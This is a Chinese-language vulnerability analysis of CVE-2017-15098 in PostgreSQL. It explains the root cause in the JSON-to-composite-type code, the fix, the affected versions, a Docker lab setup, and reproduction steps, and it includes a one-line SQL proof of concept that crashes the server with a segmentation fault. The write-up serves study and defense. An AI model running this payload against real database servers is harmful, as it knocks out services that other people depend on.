



# CVE-2017-15098 CWE-200 PostgreSQL DoS

## 漏洞背景

- **PostgreSQL**：PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **复合类型（Composite Type）：** PostgreSQL 数据库中的一种用户自定义数据结构，它由多个不同类型的字段组成，类似于结构体（struct）。复合类型可以用于表的行类型、函数的返回值、变量声明等场景，使得一条数据可以包含多个相关字段，方便数据的组织与管理。

## 漏洞原理

在将 JSON 转换为复合类型时，PostgreSQL 未对字段缺失、类型不一致和域约束进行严格校验，导致函数调用路径中访问了未初始化或非法内存，最终引发服务器崩溃或信息泄露。

## 漏洞定位

分析 PostgreSQL 9.4.0 源码：

在 src\backend\utils\adt\jsonfuncs.c 文件第 2013 行`populate_record_worker`函数用于将 JSON 或 JSONB 格式的数据解析并“填充”进 PostgreSQL 的“复合类型”（record/composite type）变量里。

其中第 **2070** 行调用`lookup_rowtype_tupdesc` 函数，但是该函数只能处理普通composite，即表/类型直接定义的复合类型，无法正确处理复合类型的域。当调用 `json_populate_record` 或 `json_populate_recordset` 等函数，传入参数的类型是复合类型的域时，`lookup_rowtype_tupdesc` 不能正确递归解包到真实的底层复合类型，会出现结构错位、越界访问最终导致服务器崩溃。

```cpp
static Datum populate_record_worker(FunctionCallInfo fcinfo, const char *funcname,
					   bool have_record_arg)
{
	// ...

	Assert(jtype == JSONOID || jtype == JSONBOID);

	if (have_record_arg)
	{
		// ....
		// 2070 行 
		tupdesc = lookup_rowtype_tupdesc(tupType, tupTypmod);
	}
    
    // ...
}
```

## 漏洞修复

将类型描述符的获取方式修改为可以安全递归解包的 `lookup_rowtype_tupdesc_domain`

```cpp
// 类型描述符获取改为安全方式
tupdesc = lookup_rowtype_tupdesc_domain(tupType, tupTypmod, false); // 新实现

// 在tuple填充后补充domain检查（防止不满足约束的数据被返回）
if (argtype != tupdesc->tdtypeid)
    domain_check(HeapTupleGetDatum(rettuple), false,
        argtype, &my_extra->domain_info, fcinfo->flinfo->fn_mcxt);
```

## 影响范围

**影响版本：**PostgreSQL：

-  9.3.0 to 9.3.19
-  9.4.0 to 9.4.14
-  9.5.0 to 9.5.9
-  9.6.0 to 9.6.5
-  10.0

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 9.4.0，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:8.1 HIGH   CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.4:*:*:*:*:*:*:*
```



## 漏洞复现

1. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test

   ```bash
   docker exec -it postgres-9.4.0 psql -U postgres -d test
   ```

2. 执行 PoC 代码，可以看到执行后连接关闭且自动退出

   ```postgresql
   \i CVE-2017-15098-PoC.sql
   ```

   

3. 查看容器日志，可以看到 PostgreSQL 遭遇了段错误（signal 11），导致其自身崩溃。

   ```bash
   docker logs postgres-9.4.0
   ```

   

## PoC分析

```sql
select * from json_populate_recordset(row(1000000000::int,50::int),'[{"b":"2"},{"a":"3"}]') q (a text, b text);
```

传入的 `row(1000000000::int,50::int)` 是匿名复合类型（两列int），给的输出类型`q (a text, b text)`，强制让返回结果是两列text。而 JSON 数据内容`[{"b":"2"},{"a":"3"}]`与复合类型定义顺序、字段类型都**不匹配**。

PostgreSQL 内部在解析`json_populate_recordset`时，需要把 JSON 数组里的每个元素映射为一行（record）。但其内部对复合类型映射检查不严，当传入不匹配的参数类型和畸形 JSON时，会导致PostgreSQL错误地解析内存数据，最终**崩溃**。

## 参考链接

[NVD - CVE-2017-15098](https://nvd.nist.gov/vuln/detail/CVE-2017-15098)

[Add tests for json{b}_populate_recordset() crash case. · postgres/postgres@b574228](https://github.com/postgres/postgres/commit/b574228715f0fd77ed1f4f084603cff9e757e992#diff-94c0251a8746604d43229f39136eaa5fd53feb420e4133717942724667a571d8)

[Support domains over composite types. · postgres/postgres@37a795a](https://github.com/postgres/postgres/commit/37a795a60b4f4b1def11c615525ec5e0e9449e05#diff-6693138a484326541689ebe4e0350814d2676f0946522ffeb4a87c6aacaaa274)
